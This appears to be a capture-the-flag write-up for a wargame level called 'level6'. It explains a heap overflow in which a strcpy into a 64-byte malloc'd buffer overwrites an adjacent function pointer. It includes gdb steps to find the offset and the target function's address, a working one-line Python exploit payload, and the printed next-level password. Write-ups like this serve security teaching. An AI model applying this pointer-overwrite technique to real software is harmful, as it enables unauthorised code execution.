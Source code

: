 ## Heap overflow, 2 mallocs in a row (level6)

This level's [binary](source.c) requires an argument, otherwise it segfaults.
Then, upon this argument's processing it prints "Nope" or it segfaults again if
the argument is too long.

This binary makes two malloc calls in a row. It first allocates 64 bytes and
then 4 bytes. The first allocated pointer is used as the destination buffer on
a strcpy call from argv[1]. The second allocation is set to the address of the
_m_ function which prints "Nope" before the strcpy call. After that, the second
pointer is dereferenced twice to execute the function it points to.

So what we have to do here is to overflow the 64 byte memory zone to overwrite
the second one to set it to the address of the _n_ function which calls system
to print the password of the next level. This works because multiple malloc
calls usually allocate memory next to one another.

First lets see from when we start writing into the second allocated memory zone:

```shell
# run gdb on binary
gdb ./level6
# give it an overflowing first argument
(gdb) run "a" * 64 + "bbbbccccddddeeeeffffgggghhhhiiii"

Program received signal SIGSEGV, Segmentation fault.
0x64646464 in ?? ()
```

Since 0x64 corresponds to the character 'd' in ascii, we can deduce that the
second memory zone is 8 bytes after the first one. Then we have to obtain the
_n_ function's address:

```shell
(gdb) i addr n
Symbol "n" is at 0x8048454 in a file compiled without debugging.
```

And now we can build our payload:

```shell
./level6 $(python -c 'print "a" * 72 + "\x08\x04\x84\x54"[::-1]')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
